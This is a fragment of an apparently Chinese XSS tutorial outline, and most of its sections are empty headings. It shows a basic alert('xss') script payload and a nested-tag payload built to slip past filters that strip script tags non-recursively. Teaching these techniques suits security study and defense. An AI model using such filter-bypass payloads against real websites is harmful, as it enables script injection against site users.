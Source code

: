# 02.XSS

##2.1 XSS介绍

###2.1.2 XSS可能出现的地方

##2.2 XSS注入技巧

###2.2.1 屌丝篇
  
####2.2.1.1直接上菜

```javascript
<script>alert('xss');</script>
```

如果你的系统可以让用户那么直接执行javascript脚本，那你就等着哭吧。

####2.2.1.2 过滤script标签

ok，稍微有一丁点安全意识的人都会把javascript标签过滤掉，过滤一般会分为两种情况：
  
  * 过滤script标签本身，内容不过滤
  * 过滤script标签以及包含的所有内容

加入playload如下：
```html
<script>alert('xss');</script><p>正常文档</p>
```

那么第一种情况过滤的结果为：
```html
alert('xss');<p>正常文档</p>
```

而第二种情况过滤的结果为：
```html
<p>正常文档</p>
```

针对第一种情况，如果系统没有对用户输入进行递归的xss过滤的话，那么我们的playload可以为：
```html
<scr<script>alert('xss');</script>ipt>alert('xss');</scr<script>alert('xss');</script>ipt>
```

###2.2.2 高帅富篇

##2.3 XSS防注

##2.4 XSS平台：beef-xss

参考文档：OWASP ,维基百科，百度百科
